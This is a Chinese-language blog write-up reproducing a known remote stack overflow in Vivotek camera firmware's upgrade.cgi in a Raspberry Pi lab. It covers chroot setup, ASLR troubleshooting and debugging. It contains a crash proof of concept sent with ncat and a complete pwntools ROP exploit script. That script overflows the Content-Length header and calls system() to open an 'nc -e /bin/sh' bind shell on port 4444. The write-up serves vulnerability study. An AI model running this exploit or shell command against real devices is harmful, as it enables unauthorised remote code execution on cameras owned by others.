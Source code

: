 漏洞poc: https://www.exploit-db.com/exploits/44001

主要参考这篇文章：https://xz.aliyun.com/t/5054

## raspberrypi下搭建

首先下好环境

漏洞固件和环境(感谢nop师傅)： https://pan.baidu.com/s/1l43s8MrRk1AiaDyuD4i5KQ 提取码：ke88

环境扔过去后，还是需要 mount 来挂载，然后 chroot 来执行

```
sudo mount -o bind /dev ./dev
sudo mount -t proc /proc ./proc
sudo chroot . ./usr/sbin/httpd
```

mount命令是挂载命令，将前一个文件夹挂在到后一个，这样访问后一个就相当于访问前一个

chroot命令用来在指定的根目录下运行指令。 chroot，即change root directory （更改root 目录）。 在linux 系统中，系统默认的目录结构都是以 / ，即是以根(root) 开始的。 而在使用chroot 之后，系统的目录结构将以指定的位置作为 / 位置。

遇见报 `chroot: failed to run command './usr/sbin/httpd' :  Permission denied ` 时，需要用 chmod -R 给 usr bin lib 文件夹都赋权限。

POC：

```
echo -en "POST /cgi-bin/admin/upgrade.cgi HTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | ncat -v 192.168.43.159 80
```

## 调试

调试可以参考原文章

关闭 aslr 时遇见一个问题，修改不了 /proc/sys/kernel/randomize_va_space ，权限是-rw-r--r-- 1 root root 0 Oct 17 07:16 randomize_va_space，但是root和chmodt改不了，pi和root用户下用lsattr和chattr都会报错 chattr: Inappropriate ioctl for device while reading flags on randomize_va_space ，挂载情况是 proc on /proc type proc (rw,relatime)

但是很匪夷所思的一点是，经过不断的尝试， su 情况下 echo 0 > randomize_va_space 居然能写进去...

如果有师傅知道这里是为啥，还请告知：wu.guang.zheng@qq.com

需要注意的是，原文章中 cat /proc/2949/maps 查看 libc 基址时，中间的数字是进程的 PID ...吃了没技术的亏。

经过调试，发现会在 system 下报 dumping core in /tmp 这个错，有点懵，但是ROP确实是成功了，附上截图，以后说不定用的上

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/vivotek远程栈溢出-1.png)

这里下断点的地方是libc里的 system 地址（system_addr= libc_base + 0x47ab0），c之前是刚连上的寄存器内容，之后是断下来的寄存器内容，r0是 执行system 的参数，0xbeffe544内是需要执行的代码 nc -lp 4444 -e /bin/sh; ，我的树莓派好像没法执行这个命令，但是我更换成其他命令情况是一样的。

大体上漏洞已经复现完了，最后的以后有机会再看吧...如果有师傅搞懂了这里是为啥，还请告知：wu.guang.zheng@qq.com

附上使用的脚本

```python
#encoding=utf-8
#!/usr/bin/python

from pwn import *

g1=0x00048784 #: pop {r1, pc}
g2=0x00016aa4 #: mov r0, r1 ; pop {r4, r5, pc}

p = remote("192.168.43.159",80)

libc_base =  0xb6dd0000   # libC 库在内存中的加载地址
command_addr = 0xbeffe544 # 要执行的代码地址
system_addr= libc_base + 0x47ab0 # 0xb6e17ab0

g1=libc_base+g1
g2=libc_base+g2
prefix="POST /cgi-bin/admin/upgrade.cgi HTTP/1.0nContent-Length:"
command="nc -lp 4444 -e /bin/sh;"
payload='aabbccddeeffgghhiijjkkllmmnnooppqqrrssttuuvvwwxxyyzz'
payload=payload+p32(g1)+p32(command_addr)+p32(g2)+'a'*8+p32(system_addr)
payload=prefix+payload+command+"nrnrn"
p.sendline(payload)
```


